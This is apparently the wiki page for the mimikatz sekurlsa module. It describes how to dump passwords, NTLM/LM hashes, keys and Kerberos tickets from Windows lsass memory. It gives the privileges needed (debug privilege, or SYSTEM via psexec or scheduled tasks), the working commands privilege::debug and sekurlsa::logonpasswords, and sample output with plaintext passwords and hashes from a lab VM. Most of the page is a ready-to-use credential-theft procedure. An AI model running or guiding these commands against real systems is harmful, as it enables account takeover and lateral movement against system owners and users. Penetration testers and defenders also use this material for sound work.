 This module extracts **passwords**, **keys**, **pin codes**, **tickets** from the memory of `lsass` (`Local Security Authority Subsystem Service`)  
_the process by default, or a minidump of it!_ (see: [howto ~ get passwords by memory dump](howto-~-get-passwords-by-memory-dump) for minidump or other dumps instructions)

When working with `lsass` process, `mimikatz` needs some rights, choice:
* Administrator, to get `debug` privilege via [`privilege::debug`](module-~-privilege#debug)
* `SYSTEM` account, via post exploitation tools, scheduled tasks, `psexec -s ...` - in this case `debug` privilege is not needed.

Without rights to access `lsass` process, all commands will fail with an error like this: `ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)` _(except when working with a minidump)_.

So, do not hesitate to start with:
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # log sekurlsa.log
Using 'sekurlsa.log' for logfile : OK
```
...before others commands :wink:

The information that can be extracted depends on the version of Windows and authentication methods: [en] http://1drv.ms/1fCWkhu

> Commands: [logonpasswords](#logonpasswords), [pth](#pth), [tickets](#tickets), [ekeys](#ekeys), [dpapi](#dpapi), [minidump](#minidump), [process](#process), [searchpasswords](#searchpasswords), [msv](#msv), [wdigest](#wdigest), [kerberos](#kerberos), [tspkg](#tspkg), [livessp](#livessp), [ssp](#ssp), [credman](#credman)

## logonpasswords

```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 88038 (00000000:000157e6)
Session           : Interactive from 1
User Name         : Gentil Kiwi
Domain            : vm-w7-ult
SID               : S-1-5-21-2044528444-627255920-3055224092-1000
        msv :
         [00000003] Primary
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult
         * LM       : d0e9aee149655a6075e4540af1f22d3b
         * NTLM     : cc36cf7a8514893efccd332446158b1a
         * SHA1     : a299912f3dc7cf0023aef8e4361abfc03e9a8c30
        tspkg :
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult
         * Password : waza1234/
        wdigest :
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult
         * Password : waza1234/
        kerberos :
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult
         * Password : waza1234/
        ssp :
         [00000000]
         * Username : admin
         * Domain   : nas
         * Password : anotherpassword
        credman :
```